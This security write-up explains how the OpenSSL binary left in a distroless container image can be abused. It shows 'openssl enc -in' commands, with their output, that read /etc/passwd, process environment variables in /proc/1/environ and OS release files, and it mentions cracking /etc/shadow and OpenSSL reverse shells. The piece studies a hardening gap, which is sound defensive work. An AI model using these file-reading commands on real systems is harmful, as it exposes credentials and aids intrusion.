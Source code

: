 In the SBoM we find the package OpenSSL which can be found in many projects.
OpenSSL is an example of a LOLBin which can be abused. An adversary can enumerate
the application and come up with the conclusion that it is highly likely that
OpenSSL is needed for the application to run and tries it out.

As shown in the terminal we should not have access to a shell in our Distroless
container, but OpenSSL can provide us with some kind of shell.

```sh
 ~  >> docker run --rm -it gcr.io/distroless/base:nonroot openssl
OpenSSL>
```

This shell can be used to retrieve files which should not be accessible. For
example, we could retrieve all users on the system. This in combination with
retrieving the `/etc/shadow` file could be enough to brute force the credentials
for each user in the `/etc/passwd` file.

```sh
 ~  >> docker run --rm -it gcr.io/distroless/base:nonroot openssl enc -in /etc/passwd
root:x:0:0:root:/root:/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/sbin/nologin
nonroot:x:65532:65532:nonroot:/home/nonroot:/sbin/nologin
```

We could also abuse this to retrieve environment variables running in processes
on the container. Many developers pass credentials from the container environment
to the application using environment variables. In the example below we retrieved environment variables running in a process with process ID 1. Luckly for us this
time no sensitive information was found.

```sh
 ~  >> docker run --rm -it gcr.io/distroless/base:nonroot openssl enc -in /proc/1/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=d82e105b7d6e
TERM=xterm
SSL_CERT_FILE=/etc/ssl/certs/ca-certificates.crt
HOME=/home/nonroot
```

A final example is how an adversary could abuse this for enumeration purposes,
in this case we can determine from the outside with what kind of system we are
dealing with.

```sh
 ~  >> docker run --rm -it gcr.io/distroless/base:nonroot openssl enc -in /usr/lib/os-release
PRETTY_NAME="Distroless"
NAME="Debian GNU/Linux"
ID="debian"
VERSION_ID="11"
VERSION="Debian GNU/Linux 11 (bullseye)"
HOME_URL="https://github.com/GoogleContainerTools/distroless"
SUPPORT_URL="https://github.com/GoogleContainerTools/distroless/blob/master/README.md"
BUG_REPORT_URL="https://github.com/GoogleContainerTools/distroless/issues/new"
```

OpenSSL has much more capabilities for further exploitation including writing to
files and the usage of OpenSSL reverse shells as can be found in GTFOBins.
